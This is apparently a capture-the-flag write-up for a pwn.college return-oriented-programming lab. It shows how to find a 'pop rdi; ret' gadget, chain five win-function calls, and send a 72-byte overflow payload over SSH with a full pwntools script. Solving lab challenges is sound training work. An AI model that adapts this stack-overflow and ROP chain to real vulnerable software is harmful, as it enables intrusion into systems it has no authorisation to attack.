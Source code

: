 In this challenge we have to use ROP gadgets to set up arguments and call functions in order to retrieve the flag. 

In a x64 program, first 6 arguments are passed into the rdi, rsi, rdx, rcx, r8, r9 registers and the rest is pushed onto the stack. 

The functions which we have to call expects only 1 arguments so we have to find rop gadgets that puts a value into the rdi register. 

To find these gadgets we can use several cli tools or we can use directly use pwntools within python

Using `ROPgadget`

	❯ ROPgadget --binary ./temp --only "pop|ret" | grep "pop rdi"
	0x0000000000402373 : pop rdi ; ret


Using `pwntools`

```python
elf = ELF('/home/darkstar/Downloads/temp')
rop = ROP(elf)

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])

if pop_rdi:
    print(f"Found 'pop rdi; ret' gadget at: {hex(pop_rdi.address)}")
else:
    print("Could not find 'pop rdi; ret' gadget.")

```

Next we have to craft our payload 

The would go something like this 

Rop gadget in binary
argument
address of the function to be called 

```python 
rop.raw(pop_rdi)  # Set up the first argument
rop.raw(arg1)     # Argument for func1
rop.raw(win_stage_1)  # Call func1

rop.raw(pop_rdi)  # Set up the second argument
rop.raw(arg2)     # Argument for func2
rop.raw(win_stage_2)  # Call func2

rop.raw(pop_rdi)  # Set up the third argument
rop.raw(arg3)     # Argument for func3
rop.raw(win_stage_3)  # Call func3

rop.raw(pop_rdi)  # Set up the fourth argument
rop.raw(arg4)     # Argument for func4
rop.raw(win_stage_4)  # Call func4

rop.raw(pop_rdi)  # Set up the fifth argument
rop.raw(arg5)     # Argument for func5
rop.raw(win_stage_5)  # Call func5

print("ROP Chain:")
print(rop.dump())

```

The rop chain 

	ROP Chain:
	0x0000:         0x402373 pop rdi; ret
	0x0008:              0x1
	0x0010:         0x402132 win_stage_1
	0x0018:         0x402373 pop rdi; ret
	0x0020:              0x2
	0x0028:         0x401f6c win_stage_2
	0x0030:         0x402373 pop rdi; ret
	0x0038:              0x3
	0x0040:         0x401da7 win_stage_3
	0x0048:         0x402373 pop rdi; ret
	0x0050:              0x4
	0x0058:         0x40204c win_stage_4
	0x0060:         0x402373 pop rdi; ret
	0x0068:              0x5
	0x0070:         0x401e89 win_stage_5

Now we just have to send this as an input

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

FILE = "/challenge/babyrop_level3.1"
HOST = 'pwn.college'
username = 'hacker'
password = '''password'''

port = 22

elf = ELF('/home/darkstar/Downloads/temp')
rop = ROP(elf)

win_stage_3 = 0x401da7
win_stage_5 = 0x401e89
win_stage_2 = 0x401f6c
win_stage_4 = 0x40204c 
win_stage_1 = 0x402132

arg1 = 0x1
arg2 = 0x2
arg3 = 0x3
arg4 = 0x4
arg5 = 0x5

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])

if pop_rdi:
    print(f"Found 'pop rdi; ret' gadget at: {hex(pop_rdi.address)}")
else:
    print("Could not find 'pop rdi; ret' gadget.")


rop.raw(pop_rdi)  # Set up the first argument
rop.raw(arg1)     # Argument for func1
rop.raw(win_stage_1)  # Call func1

rop.raw(pop_rdi)  # Set up the second argument
rop.raw(arg2)     # Argument for func2
rop.raw(win_stage_2)  # Call func2

rop.raw(pop_rdi)  # Set up the third argument
rop.raw(arg3)     # Argument for func3
rop.raw(win_stage_3)  # Call func3

rop.raw(pop_rdi)  # Set up the fourth argument
rop.raw(arg4)     # Argument for func4
rop.raw(win_stage_4)  # Call func4

rop.raw(pop_rdi)  # Set up the fifth argument
rop.raw(arg5)     # Argument for func5
rop.raw(win_stage_5)  # Call func5

print("ROP Chain:")
print(rop.dump())

offset = 72
payload = b'A' * offset
payload += rop.chain()

hex_payload = ''.join(f'\\x{byte:02x}' for byte in payload)
print("Payload in hexadecimal:")
print(hex_payload)

#p = process('/home/darkstar/Downloads/temp')
#
#print("Attaching gdb to the process...")
#gdb.attach(p, """
#    break *challenge+487  # Set a breakpoint at main (or any other location)
#    continue     # Continue execution
#""")
#print("sending payload")

#p.sendline(payload)

#p.interactive()

conn = ssh(user=username, host=HOST, password=password, port=port)

p = conn.process(FILE)

p.recvuntil(b"overwrite the return address).\n")

p.sendline(payload)

p.interactive()

```